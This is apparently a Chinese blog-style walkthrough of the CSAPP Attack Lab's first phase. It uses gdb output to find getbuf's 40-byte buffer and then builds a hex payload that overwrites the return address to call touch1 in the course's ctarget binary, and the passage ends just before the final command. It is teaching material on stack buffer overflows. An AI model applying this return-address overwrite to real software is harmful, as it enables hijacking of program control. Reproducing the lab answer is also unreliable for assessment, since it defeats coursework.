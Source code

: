 整个程序会要求我们输入一个字符串并显示一些结果。在这里我首先输入了 `Hello, World!`。显然这个字符串是不足以让程序出现问题的，因此其提示 `No exploit`。而我们的目的是执行函数 `touch1()`，故若成功其提示应当包含 `Touch1!: You called touch1()`。

首先来看看 `getbuf()` 的汇编代码：

```
$ gdb --args ./ctarget -q

(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:   sub    $0x28,%rsp
   0x00000000004017ac <+4>:   mov    %rsp,%rdi
   0x00000000004017af <+7>:   callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:  mov    $0x1,%eax
   0x00000000004017b9 <+17>:  add    $0x28,%rsp
   0x00000000004017bd <+21>:  retq   
End of assembler dump.
```

第一条指令表明栈顶 `%rsp` 向下生长了 `0x28`（即 40）个字节，故得知 `BUFFER_SIZE` 值为 40。输入的字符是从低地址向高地址存储的，恰好函数的返回地址也在高地址里，这为修改函数返回地址提供了可能。不妨在 `getbuf()` 处（即 `*0x4017a8` 处）打上断点，此时栈顶应当指向返回地址：

```
(gdb) b getbuf
Breakpoint 1 at 0x4017a8: file buf.c, line 12.

(gdb) r
Starting program: /home/codgician/GitHub/explorations/CSAPP/attack-lab/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12

(gdb) x $rsp
0x5561dca0:	0x00401976

(gdb) x 0x00401976
0x401976 <test+14>:	0x88bec289
```

可见栈顶 `0x5561dca0` 中的值为 `0x00401976`。而该地址恰好指向 `test()` 中调用 `getbuf()` 之后的位置，故可确定这就是我们想要修改的返回地址。来查询一下 `touch1()` 的地址：

```
(gdb) info address touch1
Symbol "touch1" is a function at address 0x4017c0.
```

需要注意的是，由于 x86 采取 *小端 (Little Endian)* 字节顺序，若希望栈中出现 `0x004017c0`，则我们构造的输入应当为 `c0 17 40 00`。基于上述分析，我们构造的字符串只需要首先包含 40 个任意字符，接下來再包含目标地址即可。`hex.txt` 内容如下：

```
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 c0 17 40 00
```

使用 `hex2raw` 将其转换为二进制文件后传入 `ctarget`，便可以达成目的：
